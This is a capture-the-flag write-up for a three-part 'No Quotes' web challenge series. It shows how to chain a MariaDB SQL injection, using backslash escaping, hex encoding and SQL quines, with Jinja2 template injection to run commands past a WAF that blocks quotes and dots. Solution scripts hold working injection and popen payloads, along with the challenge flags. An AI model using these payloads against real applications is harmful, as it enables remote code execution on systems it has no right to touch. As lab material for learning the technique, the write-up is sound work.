


## Overview

This series of web challenges focuses on bypassing a Web Application Firewall (WAF) that restricts the use of quotes and eventually periods. The core objective is to chain a specific SQL Injection technique with Server-Side Template Injection (SSTI) to achieve Remote Code Execution (RCE).

| Challenge | Difficulty | Flag |
|-----------|------------|------|
| **No Quotes 1** | Medium | `uoftctf{w0w_y0u_5UcC355FU1Ly_Esc4p3d_7h3_57R1nG!}` |
| **No Quotes 2** | Hard | `uoftctf{d1d_y0u_wR173_4_pr0P3r_qU1n3_0r_u53_INFORMATION...}` |
| **No Quotes 3** | Insane | `uoftctf{r3cuR510n_7h30R3M_m0M3n7}` |

---

## Challenge 1: No Quotes

### Analysis

We are provided with a Flask application that uses a MariaDB backend.

**Vulnerable SQL Query:**
The login logic constructs a SQL query using f-strings:

```python
query = (
    "SELECT id, username FROM users "
    f"WHERE username = ('{username}') AND password = ('{password}')"
)
```

**The WAF:**
There is a filter blocking single (`'`) and double (`"`) quotes.

```python
def waf(value: str) -> bool:
    blacklist = ["'", '"']
    return any(char in value for char in blacklist)
```

### The Exploit

Since we cannot use quotes to close the string literal, we use a **backslash (`\`)**. In MariaDB, a backslash escapes the following character.

**The "Swallow" Strategy:**

If we send `username=\`, the query becomes:

```sql
WHERE username = ('\') AND password = ('{password}')
```

The backslash escapes the closing quote of the `username` field. The database now treats everything from the first quote to the quote *before* the password as the username string.



**SSTI Payload:**
The application renders the logged-in username using `render_template_string`. We need to inject a Jinja2 payload. Since quotes are blocked in the input, we can encode our payload as **Hex** for the SQL injection.

> [!TIP]
> **Payload Construction:**
> * **Username:** `\` (Swallows the query)
> * **Password:** `) UNION SELECT 1, 0x7b7b... #` (SSTI payload in Hex)

### Solution Script

```python
import requests

URL = "https://no-quotes-instance.chals.uoftctf.org"
# Payload to read the flag binary
ssti = "{{ config.__class__.__init__.__globals__['os'].popen('/readflag').read() }}"
ssti_hex = "0x" + ssti.encode().hex()

# Username swallows the query; Password performs the injection
data = {
    "username": "\\",
    "password": f") UNION SELECT 1, {ssti_hex} #"
}

r = requests.post(f"{URL}/login", data=data)
print(r.text) # Contains the flag
```

---

## Challenge 2: No Quotes 2

### Analysis

The second iteration adds a strict verification check. The application verifies that the data returned by the database matches the user's input exactly.

```python
# app.py
if not username == row[0] or not password == row[1]:
    return render_template("login.html", error="Invalid credentials.")
```

> [!WARNING]
> This prevents the simple `UNION SELECT` from Part 1 because our `password` input (which contains the injection code) will not match the simple string we return from the database.

### The Exploit: Information Schema Quine

To bypass this, we need the database to return the **exact query** we injected. We can use `information_schema.processlist`, which contains the currently executing SQL statement.

**1. SSTI Payload:**
The SSTI payload itself must be quote-free because it is now part of the `username` input (not just hidden in hex).

* **Bypass:** Use `request.args` to pass the command via a URL parameter.
* **Payload:** `{{ url_for.__globals__.os.popen(request.args.a).read() }}`

**2. The Quine:**
We use `SUBSTR` on the `processlist` to extract just the password portion of the query.



### Solution Script

```python
# Shortened logic
ssti = "{{ url_for.__globals__.os.popen(request.args.a).read() }}"
username = ssti + "\\"
user_hex = "0x" + username.encode().hex()

# Password extracts itself from processlist
password = f") UNION SELECT {user_hex}, LEFT(SUBSTR(info, {{offset}}), ...) ..."

# Pass the command via 'a' parameter
requests.post(URL + "/login", data={...}, params={"a": "/readflag"})
```

---

## Challenge 3: No Quotes 3

### Analysis

The final boss introduces two major hurdles:

1. **WAF Update:** Blocks periods (`.`) in addition to quotes (`'`, `"`). This kills the `information_schema.processlist` technique.
2. **Hash Verification:**

```python
if ... or not hashlib.sha256(password.encode()).hexdigest() == row[1]:
```

> [!IMPORTANT]
> The database must return the **SHA256 hash** of the injected password, effectively requiring a mathematical Quine.

### The Exploit

#### 1. SSTI without Quotes or Dots

We need to generate strings and access attributes without standard syntax.

| Operation | Standard Syntax | Bypassed Syntax |
|-----------|-----------------|-----------------|
| String | `"text"` | `dict(text=1)\|min` |
| Attribute | `.name` | `\|attr(name)` |
| Item Limit | `[key]` | `\|attr('__getitem__')(key)` |

**Payload Construction:**

```python
# Equivalent to: url_for.__globals__['os'].popen(request.user_agent.string).read()
ssti = "{{ url_for|attr(dict(__globals__=1)|min)|attr(dict(__getitem__=1)|min)(dict(os=1)|min)... }}"
```

#### 2. The Mathematical SQL Quine

Since we cannot read `processlist`, we use a mathematical quine pattern with `REPLACE`.

* **Concept:** `REPLACE(Template, Placeholder, HEX(Template))`
* **Template ($):** Contains the query structure with a placeholder for the hex value.
* **Logic:** `SHA2(REPLACE($, CHAR(36), CONCAT(CHAR(48),CHAR(120),HEX($))), 256)`

### Solution Script

```python
import requests
import re

URL = "https://no-quotes-3-0c0fdbeedbd8c927.chals.uoftctf.org"

def get_str(text):
    return f"dict({text}=1)|min"

# 1. Build SSTI Payload (No Quotes, No Dots)
# ... [SSTI construction using dict()|min bypass] ...

# 2. Build Password (SQL Quine)
# T is the template. $ is the placeholder for the Hex(T)
T = f") UNION SELECT {user_hex}, SHA2(REPLACE($, CHAR(36), CONCAT(CHAR(48),CHAR(120),HEX($))), 256)#"

# Fill the template for the Python-side request
T_hex = "0x" + T.encode().hex().upper()
password = T.replace("$", T_hex)

# 4. Send Exploit
headers = {"User-Agent": "/readflag"}
data = {"username": username, "password": password}

r = requests.post(f"{URL}/login", data=data, headers=headers, allow_redirects=True)
print(r.text)
```

---

## Conclusion

This series required mastering constraints:
- **Challenge 1:** Basic WAF bypass with `\` and Hex encoding.
- **Challenge 2:** Self-referential queries (Quines) using `processlist`.
- **Challenge 3:** Advanced Jinja2 and SQL Quines without quotes or dots.

**Final Flag:** `uoftctf{r3cuR510n_7h30R3M_m0M3n7}`
